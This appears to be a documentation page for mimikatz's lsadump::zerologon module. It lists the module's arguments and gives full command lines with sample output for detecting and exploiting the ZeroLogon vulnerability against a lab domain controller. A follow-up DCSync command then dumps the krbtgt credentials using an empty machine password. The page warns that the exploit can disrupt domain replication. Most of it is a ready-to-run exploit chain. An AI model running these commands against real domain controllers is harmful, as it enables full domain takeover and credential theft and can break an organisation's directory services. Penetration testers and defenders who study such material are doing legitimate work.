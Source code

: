 # zerologon

`lsadump::zerologon` detects and exploits the [ZeroLogon](https://www.thehacker.recipes/ad/movement/netlogon/zerologon) vulnerability. It has the following command line arguments:

* `/account`: the target DC SamAccountName
* `/target`: the target DC FQDN
* `/exploit`: proceed with exploitation
* `/null`: null session authentication
* `/ntlm`: use NTLM authentication
* `/type`: The Secure Channel Types. The available values are:
  * Null
  * MsvAp
  * Workstation
  * TrustedDnsDomain
  * TrustedDomainUasServer
  * Server
  * CdcServer

{% hint style="danger" %}
This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is **not advised**.
{% endhint %}

### Detection

```
mimikatz # lsadump::zerologon /target:dc.hacklab.local /account:dc$
[rpc] Remote   : dc.hacklab.local
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no

Target : dc.hacklab.local
Account: dc$
Type   : 6 (Server)
Mode   : detect

Trying to 'authenticate'...
=============================================================================================================================================================================================================================================

  NetrServerAuthenticate2: 0x00000000

* Authentication: OK -- vulnerable
```

### Exploitation

```
mimikatz # lsadump::zerologon /target:dc.hacklab.local /account:dc$ /exploit
[rpc] Remote   : dc.hacklab.local
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no

Target : dc.hacklab.local
Account: dc$
Type   : 6 (Server)
Mode   : exploit

Trying to 'authenticate'...
=============================================================================================================================================================================================================================================

  NetrServerAuthenticate2: 0x00000000
  NetrServerPasswordSet2: 0x00000000

* Authentication: OK -- vulnerable
* Set password  : OK -- may be unstable
```

A [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) can then be conducted with [`lsadump::dcsync`](dcsync.md).

```
mimikatz # lsadump::dcsync /domain:HACKLAB.LOCAL /dc:dc.hacklab.local /user:krbtgt /authuser:dc$ /authdomain:HACKLAB /authpassword:"" /authntlm
```
